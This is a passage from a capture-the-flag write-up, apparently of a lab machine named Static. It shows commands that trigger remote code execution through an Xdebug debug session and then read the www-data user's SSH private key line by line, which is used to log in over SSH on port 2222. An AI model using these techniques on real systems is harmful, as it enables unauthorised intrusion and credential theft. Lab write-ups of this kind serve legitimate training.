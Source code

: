```bash
rlwrap python2 exploit_shell.py

wget -q -O - "http://172.20.0.10/info.php?XDEBUG_SESION_START=phpstorm --header 'X-Forwarded-For: 172.200.10'"
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_61.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_62.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I look in the `passwd` file for the user `www-data`, under which I am probably executing the commands, it exists so I look for its `id_rsa` key to be able to connect with **SSH**, I am lucky and I find it, but I have to read file line by line. Once I have the `id_rsa` key I give it the special permissions **600** and I connect to the **IP 172.20.0.10** through **SSH**, but I am going to try to connect to the real **IP** of the machine. For port **22** SSH I have no success, but also port **2222** is open and I try with this one and I could already access the machine.

```bash
for i in $(seq 1 27); do echo "system(\"cat /home/www-data/.ssh/id_rsa | awk 'NR==$i'\")"; done

nvim id_rsa
# :%s/>> /

chmod 600 id_rsa

ssh -i id_rsa www-data@172.20.0.10
cat ../nmap/targeted

ssh -i id_rsa www-data@172.20.0.10 -p 2222
ssh -i id_rsa www-data@10.10.10.246 -p 2222

export TERM=xterm
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_63.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_64.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_65.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_66.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_67.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_68.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>